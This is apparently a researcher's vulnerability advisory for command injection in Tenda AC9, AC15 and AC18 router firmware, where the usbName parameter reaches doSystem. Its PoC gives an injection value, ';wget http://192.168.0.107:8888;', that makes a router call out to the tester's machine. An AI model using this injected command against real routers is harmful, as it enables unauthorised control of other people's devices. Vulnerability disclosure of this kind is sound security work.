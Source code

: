 
vendor:Tenda

product:AC9 AC15 AC18 

version:V15.03.05.19(6318)_CN(AC9), V15.03.05.19_CN(AC15), V15.03.05.19(6318)_CN(AC18) and earlier

type:Arbitrary Command Execution

author:Ming Yuan

institution:NISL@Tsinghua University


Vulnerability description
-------------------------
I found an `Arbitrary Command Execution` vulnerability in the router's web server--httpd. While processing the `usbName` parameters for a post request, the value is directly passed to doSystem, which causes a rce. The details are shown below:
![image](https://github.com/ZIllR0/Routers/blob/master/Tenda/images/ace1.jpg)

PoC
-------------------------

We set the value of `usbName` as `;wget http://192.168.0.107:8888;` and the router will excute `wget http://192.168.0.107:8888` command. `192.168.0.107` is our native computer's ip, then we use nc to listen port 8888, finally we capture http request from `192.168.0.1`, as shown in the figure below.

![image](https://github.com/ZIllR0/Routers/blob/master/Tenda/images/ace2.jpeg)




p.s.Given the vendor's security, we only provide parts of the URL.
